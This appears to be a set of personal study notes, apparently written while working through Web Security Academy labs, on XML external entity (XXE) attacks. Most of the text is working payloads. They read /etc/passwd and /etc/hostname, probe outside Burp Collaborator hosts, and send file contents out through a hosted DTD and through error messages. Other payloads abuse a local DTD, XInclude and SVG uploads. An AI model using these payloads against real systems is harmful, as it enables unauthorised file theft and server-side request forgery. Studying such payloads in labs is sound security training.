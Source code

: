 
# XXE

## NORMAL XXE
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>


## Getting external data using xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>

With real-world XXE vulnerabilities, there will often be a large number of data values within the submitted XML, any one of which might be used within the application's response. To test systematically for XXE vulnerabilities, you will generally need to test each data node in the XML individually, by making use of your defined entity and seeing whether it appears within the response.

## 2:XXE to do ssrf
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://sokzuyqem81dc852mp18rpa6vx1npc.burpcollaborator.net"> ]>

## out of band blind xxs

use burpcolaborator to make requests



## Detecting blind XXE using out-of-band (OAST) techniques  * parameterentity
paramter entity are used to enable xml to have one way of calling values

<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://s0tlmxl7lfn99oxdlmye4hcykpqge5.burpcollaborator.net"> %xxe; ]>

<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "https://exploit-acb21fda1fb5c7a8c0e0733201b400da.web-security-academy.net/exploit"> %xxe; ]>


https://exploit-acb21fda1fb5c7a8c0e0733201b400da.web-security-academy.net/exploit

http://exploit-acb21fda1fb5c7a8c0e0733201b400da.web-security-academy.net/exploit
t5zxriab0q5ykaoflbqer64cf3l59u.burpcollaborator.net
a8jeuzds378fnrrwostvun7tikoncc.burpcollaborator.net

## exfiltrate data in  blind xxe 

site:https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-exfiltration
* Server payload

<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net/?x=%file;'>">
%eval;
%exfil;

then make a dtd parameter request
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>


#exfiltrate data via log

https://exploit-acbd1f991fbb071ec0ef961d01a100fc.web-security-academy.net/exploit

<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;

<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "https://exploit-acbd1f991fbb071ec0ef961d01a100fc.web-security-academy.net/exploit"> %xxe; ]>

##Exploiting blind XXE by repurposing a local DTD

gnome dtd location
/usr/share/yelp/dtd/docbookx.dtd 

start by searching for the local dtd by using
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
%local_dtd;
]>
</br>
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>

## Exploiting XInclude to retrieve files
### ref : https://www.w3.org/TR/xinclude-11/

<?xml version='1.0'?>
<document xmlns:xi="http://www.w3.org/2001/XInclude">
  <p>This document is about
  <xi:include href="file:///etc/passwd" parse="text/plain" encoding="ISO-8859-1"/>.</p>
</document>
inject this xml to the product code
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>


Exploiting XXE via image file upload

<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
